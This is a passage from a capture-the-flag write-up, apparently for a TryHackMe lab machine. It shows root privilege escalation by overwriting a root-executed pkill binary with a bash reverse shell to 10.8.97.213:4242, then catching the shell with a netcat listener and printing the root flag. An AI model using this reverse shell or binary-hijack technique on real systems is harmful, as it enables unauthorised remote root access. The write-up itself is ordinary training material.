# Privilege Escalation → root

Add a reverse shell payload to `/bin/pkill` which would be execute every second as `root` privilege

```tsx
lachlan@b2r:~$ echo "bash -c 'bash -i >& /dev/tcp/10.8.97.213/4242 0>&1'" > bin/pkill ; chmod +x bin/pkill
```

Start `Netcat Listener` on the mentioned port in the reverse payload `pkill`

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.74.222] 35768
bash: cannot set terminal process group (2652): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@b2r:~# ls
ls
root.txt
snap
root@b2r:~# cat root.txt
cat root.txt
thm{7b708e5224f666d3562647816ee2a1d4}
```